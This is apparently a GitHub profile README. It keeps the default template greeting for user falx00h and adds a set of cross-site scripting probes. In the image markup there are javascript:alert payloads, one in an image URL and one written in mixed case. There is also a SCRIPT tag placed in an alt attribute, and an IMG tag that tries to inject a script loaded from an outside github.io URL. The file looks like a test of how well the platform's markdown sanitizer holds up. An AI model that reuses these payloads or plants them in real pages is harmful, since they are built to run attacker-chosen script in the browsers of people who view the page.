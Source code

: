 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![
<img src="JaVaScRiPt:alert('XSS')" alt="<SCRIPT>alert()</SCRIPT>">
<IMG SRC= img/script+src=https://r89shi.github.io/teste.js%3e >

](()
